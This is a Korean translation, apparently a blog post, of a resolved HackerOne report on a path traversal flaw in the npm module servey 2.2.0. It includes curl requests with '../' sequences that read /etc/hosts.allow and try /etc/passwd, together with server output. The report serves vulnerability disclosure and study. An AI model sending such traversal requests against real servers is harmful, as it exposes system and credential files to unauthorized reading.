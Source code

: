 ```yaml
---
layout: post
title: \[servey\] 경로 이동 취약점은 확장 기능을 포함한 원격 서버의 어떠한 파일이라도 가져올 수 있게함
categories: PoC
tags: [Bugbounty, PathTraversal, Translation, Hackerone]
---
```

(와.. bl4de님이다~~)  

출처 : [hackerone hacktivity, 작성자 : bl4de] https://hackerone.com/reports/355501

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 4일 오전 5시 08분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 해당 소스코드는 servey의 자산입니다. 취약점의 종류는 Path traversal이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 4~6.9/10의 심각성을 내포하고 있습니다. ]_
- - -
팀원님들 안녕하세요,

저는 servey 모듈의 부분적인 경로 이동 공격에 대해서 리포팅하고 싶습니다.
이 취약점은 원격 서버에서 (확장 기능을 포함한) 어떠한 임의의 파일이라도 읽을 수 있게 합니다.

# 모듈
* 모듈 이름: servey
* 버전: 2.2.0
* npm 페이지: https://www.npmjs.com/package/servey
  
## 모듈 설명
정적인 단일 페이지 애플리케이션 서버

## 모듈 스탯
월별 ~120-200회의 다운로드가 된다고 추정됩니다.
- - -
# 취약점
## 공격이 발생되는 과정
* servey모듈을 설치합니다:
{% highlight html %}
$ npm install servey
{% endhighlight %}

* 모듈의 npm 문서에서 가져온 다음의 예제 코드를 이용해 샘플 애플리케이션을 생성합니다:
{% highlight javascript %}
// app.js
const Servey = require('servey');
const Path = require('path') 
const server = Servey.create({
    spa: true,
    port: 8080,
    folder: Path.join(__dirname, 'static')
});

server.on('error', function (error) {
    console.error(error);
});

server.on('request', function (req) {
    console.log(req.url);
});

server.on('open', function () {
    console.log('open');
});

server.open();
{% endhighlight %}

* 앱을 실행합니다:
{% highlight text %}
$ node app.js 
open
{% endhighlight %}

* /etc/passwd (어떠한 확장 기능도 없는 예시 파일)의 내용을 가져오길 시도합니다. servey는 이러한 파일의 접근을 허용하지 않고 HTTP 500 인터널 서버 에러를 띄웁니다:
{% highlight text %}
$ curl -v --path-as-is localhost:8080/../../../../../../etc/passwd
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 500 Internal Server Error
< Content-Type: text/html; charset=utf8
< Date: Mon, 21 May 2018 13:08:15 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
* Connection #0 to host localhost left intact
{"code":500,"message":"Internal Server Error"}
{% endhighlight %}

* 요청이 실패했다는 것을 로그를 통해 보여줍니다:
{% highlight text %}
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
{% endhighlight %}

* 이제, 다음의 curl 명령의 실행을 통해 /etc/hosts.allow (당신의 시스템 환경에 따라 ../ 경로를 추가해 주세요)의 내용을 가져오길 시도합니다:
{% highlight text %}
$ curl -v --path-as-is localhost:8080/../../../../../../etc/hosts.allow
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/hosts.allow HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: undefined; charset=utf8
< Date: Mon, 21 May 2018 13:06:38 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
# /etc/hosts.allow: list of hosts that are allowed to access the system.
#                   See the manual pages hosts_access(5) and hosts_options(5).
#
# Example:    ALL: LOCAL [@some_netgroup](/some_netgroup)
#             ALL: .foobar.edu EXCEPT terminalserver.foobar.edu
#
# If you're going to protect the portmapper use the name "rpcbind" for the
# daemon name. See rpcbind(8) and rpc.mountd(8) for further information.
#

* Connection #0 to host localhost left intact
{% endhighlight %}

* servey앱의 로그를 다시한번 더 체크해봅니다:
{% highlight text %}
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
/../../../../../../etc/hosts.allow
{% endhighlight %}
hosts.allow 요청이 실패하지 않았다는 것과 파일의 내용을 가져올 수 있었다는 것을 확인할 수 있습니다.  
- - -

# 패치
N/A (해당 없음)

# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* 운영체제: Ubuntu 16.04
* Node.js 8.11.1
* npm v. 6.0.1
* curl 7.47.0

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No

Rafal ‘bl4de’ Janicki 올림.
- - -
# 영향
공격자는 확장 기능을 포함한 원격 서버의 어떠한 파일의 내용이라도 가져올 수 있습니다.